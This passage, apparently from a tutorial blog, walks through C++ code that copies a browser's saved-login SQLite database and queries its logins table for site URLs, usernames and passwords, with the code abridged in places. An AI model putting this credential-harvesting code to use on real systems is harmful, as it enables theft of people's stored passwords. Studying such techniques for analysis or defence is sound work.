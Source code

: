```c++
std::wstring copyLoginDataPath = loginDataPath;
copyLoginDataPath.append(L"a");

if (!CopyFileW(loginDataPath.c_str(), copyLoginDataPath.c_str(), FALSE)) {
	warn("Error copying the file. Error: %ld", GetLastError());
	return EXIT_FAILURE;
}
```

To copy the file, we simply copy the original path, which is the output from the `FindLoginData` and append an "a" to the end so a copy with a different name is created. Then, we use the [CopyFileW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfilew) function from the winbase.h API.

```c++
  sqlite3* loginDataBase = nullptr;

  **Snip Snip**

  openingStatus = sqlite3_open_v2(string_converted_path.c_str(), &loginDataBase, SQLITE_OPEN_READONLY, nullptr);
```

Now we can start the process of reading the database. As stated before, we open the copied database.

```c++
  const char* sql = "SELECT origin_url, username_value, password_value, blacklisted_by_user FROM logins";
  sqlite3_stmt* stmt = nullptr;
  openingStatus = sqlite3_prepare_v2(loginDataBase, sql, -1, &stmt, nullptr);
```
We prepare an SQL statement to select the necessary columns from the `logins` table.
This statement selects the `origin_url`, `username_value`, `password_value`, and `blacklisted_by_user` columns from the `logins` table.

> # Understanding the SQLite Data Base Structure and Statement. 
>
> There is a bit to unpack here. First, we are writing a normal SQL query where we use the SELECT keyword to extract certain information FROM the logins table which is present in the database.
> To understand the structure of the database, we can make use of [DB Browser for SQLite](https://sqlitebrowser.org/), an open-source tool designed for people who want to create, search, and edit [SQLite](https://www.sqlite.org/) database files.
> ![Data Base Tables](/assets/images/DataBaseTables.png)
> By taking a quick look, we realize that there are nine tables present in this database, and we quickly come to the conclusion that the logins table is probably the one that matters.
> Now, using the Browse Data option, we can take a look inside the logins table.